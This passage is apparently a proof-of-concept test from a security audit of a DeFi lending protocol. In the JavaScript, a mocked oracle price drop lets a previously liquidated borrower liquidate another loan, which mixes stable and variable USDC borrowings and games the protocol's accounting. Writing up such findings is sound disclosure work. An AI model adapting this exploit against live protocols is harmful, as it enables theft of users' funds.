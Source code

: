 ```javascript
        // New violator has 2000 USDC borrowed and 1 ETH collateral of $3000.
        
        // Before the liquidation, the previous violator which will now be liquidator has to deposit some ETH.
        const depositAmountPrevViol = BigInt(1e18); // 1 ETH
        const depositFAmountViol = depositAmountPrevViol;
        const ethPrice2 = BigInt(3000e18);
        await pools.ETH.pool.setDepositPoolParams({
          fAmount: depositFAmountViol,
          depositInterestIndex,
          priceFeed: { price: ethPrice2, decimals: pools.ETH.tokenDecimals },
        });
        const depositViol = await loanManager.connect(hub).deposit(violatorLoanId, violatorAccountId, pools.ETH.poolId, depositAmountPrevViol);

        //  Now let's make the new violator's loan to be liquidatable by the previous violator and in this way the borrowing of previous violator in USDC will be mixed up with stable and variable borrowings.
        const ethNodeOutputData2 = getNodeOutputData(BigInt(600e18)); // 
        await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData2);

        // Here, the previous violator will try to liquidate the new violator and get from him the variable borrowings which he has in his loan.
        const liquidate2 = await loanManager
        .connect(hub)
        .liquidate(
          newViolatorsLoanId,
          violatorLoanId,
          violatorAccountId,
          pools.ETH.poolId,
          pools.USDC.poolId,
          BigInt(50e6),
          BigInt(0)
        );

        // Eventually, previous violators UserLoanBorrow for USDC will have amount and balance gained from both stable and variable borrowings and in this way the protocols accountings can be gamed. Also, it will have stableInterestRate of the new violator.

        // TLDR: A user was borrowed USDC variable but after his liquidation, he was able to liquidate another user and gain his stable USDC borrowings and in this way his borrowings was from mixed sources. The accountings of protocol were gamed, at the end.
    });
```
This test demonstrates how a user can exploit the system to mix stable and variable borrowings, thereby compromising the protocol.